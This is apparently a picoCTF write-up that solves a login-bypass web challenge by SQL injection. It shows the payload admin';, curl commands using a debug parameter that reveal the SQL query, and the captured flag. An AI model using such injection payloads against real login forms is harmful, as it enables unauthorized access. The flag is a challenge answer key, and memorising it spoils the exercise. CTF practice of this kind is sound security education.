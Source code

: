 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649
## Datos de acceso al nivel
```
Link: https://jupiter.challenges.picoctf.org/problem/64649/login.php
```

## Solución

```bash
# Logged in!
### Log In

Username:
admin';
Password:
hola

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_aee925db}

davidorado-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=admin&password=admin&debug=1"
<pre>username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'
</pre><h1>Login failed.</h1>davidorado-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=admin';&password=admin&debug=1"
<pre>username: admin';
password: admin
SQL query: SELECT * FROM users WHERE name='admin';' AND password='admin'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_aee925db}</p>

--------------------------------------------------------------
Your flag is: picoCTF{m0R3_SQL_plz_aee925db}
--------------------------------------------------------------

``` 

## Notas adicionales
```bash


```